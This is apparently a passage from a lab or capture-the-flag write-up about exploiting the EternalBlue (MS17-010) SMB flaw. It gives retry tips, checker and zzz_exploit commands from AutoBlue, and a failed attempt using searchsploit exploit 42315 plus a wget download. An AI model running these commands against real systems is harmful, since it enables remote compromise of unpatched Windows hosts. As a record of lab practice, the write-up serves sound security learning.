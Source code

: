 > If exploit fails, try:
> - Run again
> - Switch shellcode to `sc_x86.bin`
> - Run `python eternalblue_exploit7.py $RHOST $numGroomConn` - Try random `numGroomConn`: 15,4,20...
> - Run `cd /opt/sectools/CVE/AutoBlue-MS17-010 && pipenv shell` first, the execute the one liner again
> - **Reset the machine**
{: .prompt-tip }

> Most possible reasons that the exploit failed : 
> - Another user/player have used the exploit then did not exit his revshell session
> - We still have an active session after exploit
{: .prompt-tip }


### With named pipe

```bash
python /opt/sectools/CVE/AutoBlue-MS17-010/eternal_checker.py $RHOST
```

If named pipe found, use `zzz_expoit.py`

```bash
python /opt/sectools/CVE/AutoBlue-MS17-010/zzz_exploit.py $RHOST -pipe $NAME_PIPE
```

### Failed Attempts


#### Eternal Blue - 42315.py from searchsploit

Without using **metasploit**. choose the exploit with highest serial number which will be latest

```bash

# Clone exploit
searchsploit -m 42315


# Check the code, its default username and password is NULL
vi 42315.py


# Create virtual environment for the exploit
pipenv shell


# Its documents tells us to download mysmb.py
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/42315.py -O mysmb.py
```

It failed
